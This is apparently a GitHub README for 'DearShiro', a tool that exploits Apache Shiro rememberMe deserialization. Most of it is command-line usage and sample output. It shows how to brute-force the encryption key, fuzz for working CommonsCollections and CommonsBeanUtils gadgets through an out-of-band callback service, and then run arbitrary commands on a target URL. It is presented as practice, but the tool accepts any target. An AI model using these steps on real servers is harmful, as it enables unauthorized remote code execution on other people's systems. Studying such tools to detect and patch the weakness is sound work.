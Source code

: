 # DearShiro

## Start

**A Simple Shiro Scanner**

**Just for practice**

[中文文档](https://github.com/F4ded/DearShiro/blob/master/README_CH.md)

Done:
- Detect the key
- Detect the available gadget
- Use the gadget to execute command


TODO:
- Graphical tool
- Fix some unknowns bug

The built-in gadget:
- CommonsBeanUtilsNoCC
- CommonsCollectionsK1
- CommonsCollectionsK2
- CommonsCollectionsK3
- CommonsCollectionsK4

Change the default key list: Add your custom-key into the `resources/key`，then repackage the project.

To detect the available gadget, I use the `ceye` platform, so you need to change the `token` and `identifier` on `resources/config.properties`, then repackage the project.

## Usage

```python
❯ java -jar dearshiro.jar --help

Usage: <main class> [options]
  Options:
  * -m, --module
      module
  * -b, --baseurl
      baseurl
    -k, --key
      key
      Default: kPH+bIxk5D2deZiIxcaaaA==
    -g, --gadget
      gadget
      Default: NoCC
    -c, --command
      command
      Default: open -a Calculator
    --help


java -jar dearshiro.jar -m {module} -b {baseurl} [-k] [-g] [-c]
# key module 扫描key
java -jar dearshiro.jar -m "key" -b {baseurl}
# dadgetfuzz module 扫描可用gadget
java -jar dearshrio.jar -m "gadgetfuzz" -b {baseurl} -k {key}
# gadgetexec module 使用gadget执行任意命令
java -jar dearshiro.jar -m "gadgetexec" -b {baseurl} -k {key} -g {gadget} -c {command}
```

Simple test on localhost:

```
❯ java -jar dearshiro.jar -m "key" -b "http://127.0.0.1:8000/login.jsp"                                                                              
[+] Test key: 0AvVhmFLUs0KTA3Kprsdag==
[-] Response Code: 200
[+] Test key: kPH+bIxk5D2deZiIxcaaaA==
[-] Response Code: 200
[*] Found Key: kPH+bIxk5D2deZiIxcaaaA==


❯ java -jar dearshiro.jar -m "gadgetfuzz" -b "http://127.0.0.1:8000/login.jsp" -k "kPH+bIxk5D2deZiIxcaaaA=="    
[main] INFO org.reflections.Reflections - Reflections took 18 ms to scan 1 urls, producing 1 keys and 5 values 
[+] Test Gadget: CCK2
[-] Response Code: 200
[+] Test Gadget: NoCC
[-] Response Code: 200
[*] Found Gadget: NoCC
[+] Test Gadget: JRMPClient
[-] Response Code: 200
[+] Test Gadget: CCK1
[-] Response Code: 200
[*] Found Gadget: CCK1
########Available Gadget##########
NoCC
CCK1
########Available Gadget##########
```

